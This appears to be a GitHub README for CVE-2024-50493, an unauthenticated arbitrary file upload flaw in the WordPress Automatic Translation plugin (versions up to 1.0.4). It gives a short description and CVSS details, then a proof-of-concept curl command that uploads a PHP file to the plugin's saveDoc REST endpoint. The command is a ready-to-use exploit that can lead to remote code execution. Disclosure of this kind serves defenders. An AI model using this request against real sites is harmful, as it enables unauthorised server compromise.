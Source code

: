 # CVE-2024-50493
Automatic Translation &lt;= 1.0.4 - Unauthenticated Arbitrary File Upload

# Description:
The Automatic Translation plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 1.0.4. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possible.

```
CVE: CVE-2024-50493
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: automatic-translation
```

POC
---

```
curl -X POST \
  -F "file_name=info.php" \
  -F "file_url=@/tmp/info.php" \
  "http://kubernetes.docker.internal/wp-json/automatic-translator/v1/saveDoc"
```

